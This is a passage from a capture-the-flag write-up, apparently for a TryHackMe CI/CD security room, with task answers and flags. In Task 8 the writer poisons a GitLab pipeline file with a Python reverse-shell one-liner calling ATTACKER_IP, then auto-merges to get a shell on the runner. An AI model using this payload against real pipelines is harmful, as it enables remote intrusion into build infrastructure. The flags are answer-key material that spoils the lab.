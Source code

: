 ```
VPN
Token-based authentication
THM{1769f776-e03c-40b6-b2eb-b298297c15cc}
```
## Task 8: Securing the Build Pipeline
Now we have to login to gitlab with a different account `anatacker:Password1@`
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250227235812.png]]

Navigate to: http://gitlab.tryhackme.loc/ash/approval-test

Edit the `.github-ci.yml` file to add our script to download our reverse shell again. 
```bash
/usr/bin/python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("ATTACKER_IP",8082)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
```
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250228000942.png]]
Open a new `nc` listener.
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250228001046.png]]
Commit your changes and create a merge request. Then set the merge request to auto-merge. This will immediately add the code to main on successful running of the pipeline 
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250228000152.png]]
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250228001128.png]]
If we head back to our listener we should see that we have a shell
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250228001138.png]]
Let's find what machine we are on so we can give the hostname to the mother:
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250228001218.png]]
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250228001228.png]]
Now let's give the hostname `GRunner01` to the mother
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250228001300.png]]
Now let's do what the mother says by adding the flag
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250228001415.png]]
Finally let's verify with the mother to complete the room.
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250228001456.png]]
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250304210545.png]]
```
merge requests
limit runner access
THM{2411b26f-b213-462e-b94c-39d974e503e6}
```
## Task 9: Securing the Build Environment
Head to http://gitlab.tryhackme.loc/ash/environments/ and then in the side bar go to `Operate -> Environments` 
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250228001911.png]]
